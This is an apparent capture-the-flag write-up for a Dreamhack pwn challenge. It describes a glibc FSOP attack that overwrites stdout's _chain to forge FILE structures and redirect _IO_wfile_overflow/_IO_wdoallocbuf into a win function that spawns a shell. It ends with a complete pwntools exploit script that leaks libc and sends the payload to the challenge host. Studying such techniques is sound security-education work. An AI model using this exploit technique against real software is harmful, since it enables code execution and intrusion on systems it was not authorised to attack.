

### I. check mitigation
```C
└─$ checksec --file=chall_patched
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
    
└─$ file ./chall_patched
	./chall_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, BuildID[sha1]=fb99c15c0db6a0d0f42f4e201f20aa3f98ded07f, for GNU/Linux 4.4.0, not stripped
```
### II. IDA
```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  printf("puts @ %p\n", &puts);
  read(0, _bss_start, 0x70uLL);
  write(1, "finished...?\n", 0xDuLL);
  return 0;
}
int win()
{
  setuid(0);
  puts("okay... i will give the root shell...");
  puts("Good! You win!");
  return system("/bin/sh");
}
```
### III. analyze
- we can leak libc addr, overwrite 0x70 bytes from stdout, and there is a `win` func
- i will use fsop path by [[FSOP|pwn_college]], which is  `_IO_wfile_overflow` -> `_IO_wdoallocbuf` -> `_IO_WDOALLOCATE`
- we can overwrite up to 0x70 bytes or until `_chains`
  ```C
  pwndbg> ptype /ox FILE
	type = struct _IO_FILE {
	/* 0x0000      |  0x0004 */    int _flags;
	/* XXX  4-byte hole      */
	/* 0x0008      |  0x0008 */    char *_IO_read_ptr;
	/* 0x0010      |  0x0008 */    char *_IO_read_end;
	/* 0x0018      |  0x0008 */    char *_IO_read_base;
	/* 0x0020      |  0x0008 */    char *_IO_write_base;
	/* 0x0028      |  0x0008 */    char *_IO_write_ptr;
	/* 0x0030      |  0x0008 */    char *_IO_write_end;
	/* 0x0038      |  0x0008 */    char *_IO_buf_base;
	/* 0x0040      |  0x0008 */    char *_IO_buf_end;
	/* 0x0048      |  0x0008 */    char *_IO_save_base;
	/* 0x0050      |  0x0008 */    char *_IO_backup_base;
	/* 0x0058      |  0x0008 */    char *_IO_save_end;
	/* 0x0060      |  0x0008 */    struct _IO_marker *_markers;
	/* 0x0068      |  0x0008 */    struct _IO_FILE *_chain;         // STOP
	/* 0x0070      |  0x0004 */    int _fileno;
	/* 0x0074      |  0x0004 */    int _flags2;
	/* 0x0078      |  0x0008 */    __off_t _old_offset;
	/* 0x0080      |  0x0002 */    unsigned short _cur_column;
	/* 0x0082      |  0x0001 */    signed char _vtable_offset;
	/* 0x0083      |  0x0001 */    char _shortbuf[1];
	/* XXX  4-byte hole      */
	/* 0x0088      |  0x0008 */    _IO_lock_t *_lock;
	/* 0x0090      |  0x0008 */    __off64_t _offset;
	/* 0x0098      |  0x0008 */    struct _IO_codecvt *_codecvt;
	/* 0x00a0      |  0x0008 */    struct _IO_wide_data *_wide_data;
	/* 0x00a8      |  0x0008 */    struct _IO_FILE *_freeres_list;
	/* 0x00b0      |  0x0008 */    void *_freeres_buf;
	/* 0x00b8      |  0x0008 */    size_t __pad5;
	/* 0x00c0      |  0x0004 */    int _mode;
	/* 0x00c4      |  0x0014 */    char _unused2[20];
  ```
- when it exits, it will call `_IO_cleanup`...
  ```C
  int
	_IO_cleanup (void)
	{
	  int result = _IO_flush_all ();           // HERE
	  _IO_unbuffer_all ();
	
	  return result;
	}
  ```
- ...in which `_IO_flush_all` will iterate through every `fp->_chain`, check the constraints that include calling `fp->vtable->overflow` with `_IO_OVERFLOW (fp, EOF) == EOF)`
    ```C
    int
	_IO_flush_all (void)
	{
	  int result = 0;
	  FILE *fp;
	
	#ifdef _IO_MTSAFE_IO
	  _IO_cleanup_region_start_noarg (flush_cleanup);
	  _IO_lock_lock (list_all_lock);
	#endif
	
	  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)         // NOTE THIS ONE
	    {
	      run_fp = fp;
	      _IO_flockfile (fp);
	
	      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)   // CONSTRAINTS
		   || (_IO_vtable_offset (fp) == 0
		       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > 	fp->_wide_data->_IO_write_base))
		   )
		  && _IO_OVERFLOW (fp, EOF) == EOF)                                  // HERE
		result = EOF;
	
	      _IO_funlockfile (fp);
	      run_fp = NULL;
	    }
	
	#ifdef _IO_MTSAFE_IO
	  _IO_lock_unlock (list_all_lock);
	  _IO_cleanup_region_end (0);
	#endif
	
	  return result;
	}
	
		wint_t
	_IO_wfile_overflow (FILE *f, wint_t wch)
	{
	  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
	    {
	      f->_flags |= _IO_ERR_SEEN;
	      __set_errno (EBADF);
	      return WEOF;
	    }
	  /* If currently reading or no buffer allocated. */
	  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0               // CONSTRAINTS
	      || f->_wide_data->_IO_write_base == NULL)
	    {
	      /* Allocate a buffer if needed. */
	      if (f->_wide_data->_IO_write_base == 0)                // CONSTRAINTS
		{
		  _IO_wdoallocbuf (f);                                   // HERE
		  _IO_free_wbackup_area (f);
		  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
			     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);
	...
	}
	
	  void
	_IO_wdoallocbuf (FILE *fp)
	{
	  if (fp->_wide_data->_IO_buf_base)
	    return;
	  if (!(fp->_flags & _IO_UNBUFFERED))                         // CONSTRAINTS
	    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)                 // HERE
	      return;
	  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
			     fp->_wide_data->_shortbuf + 1, 0);
	}
    ```
- so the idea is to pivot `stdout->_chains` to a fake FILE struct, and we will trigger `fp->vtable->overflow` -> `_IO_wfile_overflow` -> `_IO_wdoallocbuf` ->` _IO_WDOALLOCATE(fp)` -> `fp->_wide_data->_wide_vtable->__doallocate(fp)` 
- overview:
```C
stdout->_chains = &fake_FILE_struct or &fp = (stdout-offset)
fp->_lock or [stdout-offset+0x88] = &NULL
fp->_wide_data or [stdout-offset+0xa0] = buf = stdout-XXX
fp->vtable or [stdout-offset+0xd8] = &_IO_wfile_jumps
fp->_wide_data->_wide_vtable->__doallocate = [[[stdout-offset+0xa0]+0xe0]+0x68] = &win
// remember, offset of _wide_table in _wide_data is 0xe0, not 0xd8 like std---
```
- the first challenge is to find a good addr btw 0x0 and 0x70
- we have to modify 0x50 bytes (`_lock` to `vtable`), so offset will range from 0x78 to 0x90
- after several tests (i will skip this part lol), i found offset 0x80 worked and satisfied all the constraints
- so we have:
```C
stdout->_chains = &fake_FILE_struct or &fp = stdout-0x80
fp->_lock or [stdout+0x8] = stdout->_IO_read_ptr = &NULL
fp->_wide_data or [stdout+0x20] = stdout->_IO_write_base = buf = stdout-XXX
// or stdout-XXX = [stdout+0x20]
fp->vtable or [stdout+0x58] = stdout->_IO_save_end = &_IO_wfile_jumps
// or &_IO_wfile_jumps = [stdout+0x58]
fp->_wide_data->_wide_vtable->__doallocate = [[[stdout+0x20]+0xe0]+0x68] = &win
// or &win = [[stdout-XXX+0xe0]+0x68]
```
- i think `win` can be placed anywhere, here i put it at `stdout->_markers`, so `[stdout+0x60]` = `[[[stdout+0x20]+0xd8]+0x68]` = `[[stdout-XXX+0xe0]+0x68]` = `&win` -> `[stdout-XXX+0xe0] = stdout-0x8`
- same as `win`, `XXX` (mayb?) can be any values btw 0x78 and 0xe0, as long as `[stdout-XXX+0xe0]` hasn't held any values
- here i chose `XXX=0xe0`, which means `[stdout]` or `[stdout->_flags] = stdout-0x8`
  
- now it calls `fp->_wide_data->_wide_vtable->__doallocate(fp)` and triggers `win`!

-> overall, since we have `win`, can leak libc addr and overwrite stdout directly until `_chains`, the path will be:
**pivot `stdout->_chains` to fake FILE struct -> set up stdout layout to  trigger `fp->vtable->overflow` -> `_IO_wfile_overflow` -> `_IO_wdoallocbuf` ->` _IO_WDOALLOCATE(fp)` -> `fp->_wide_data->_wide_vtable->__doallocate(fp)`**
### IV. PoC
```Python
#!/usr/bin/env python3
from pwn import *
import binascii
import sys

exe_path = './chall_patched'
HOST = 'host8.dreamhack.games'
PORT = 24119

exe = ELF(exe_path, checksec=False)
libc = exe.libc
context.binary = exe
context.terminal = [
    'cmd.exe', '/c', 'start',
    'wt.exe', '-w', '0', 'split-pane', '-V',
    '-d', '.',
    'wsl.exe',
    '-d', 'kali-linux',
    'bash', '-c'
]

gdbscript = '''
break *0x40122a
b*__GI__IO_flush_all
b*_IO_wfile_overflow
b*_IO_wdoallocbuf+52
continue
'''

def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    p = process(exe.path)
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
        input()
    return p

p = start()

def sla(prompt, data):
    p.sendlineafter(prompt, data)
def sa(prompt, data):
    p.sendafter(prompt, data)
def s(prompt):
    p.send(prompt)
def sl(data):
    p.sendline(data)
def rcu(data):
    return p.recvuntil(data)
def rl():
    return p.recvline()

# ============================EXPLOIT============================
rcu(b"puts @ 0x")
libc.address = int(rcu(b"\n"), 16) - libc.sym['puts']
log.success(f"libc base: {hex(libc.address)}")

win = exe.sym.win
stdout = libc.sym['_IO_2_1_stdout_']
vtable = libc.sym['_IO_wfile_jumps']

fp = FileStructure()
fp.chain = stdout - 0x80 # mov to fake FILE struct 1

buf = stdout - 0xe0 # fake FILE struct 2

fp._IO_read_ptr = 0x4040a0 # _lock
fp._IO_write_base = buf # wide_data
fp._IO_save_end = vtable # fake_vtable

fp.markers = win
flags = stdout - 0x8 # rax in <_IO_wdoallocbuf+52> call qword ptr [rax + 0x68]
payload = p64(flags)
payload += (bytes(fp))[0x8:0x70]

s(payload)
sl(b"cat flag*")

p.interactive()
```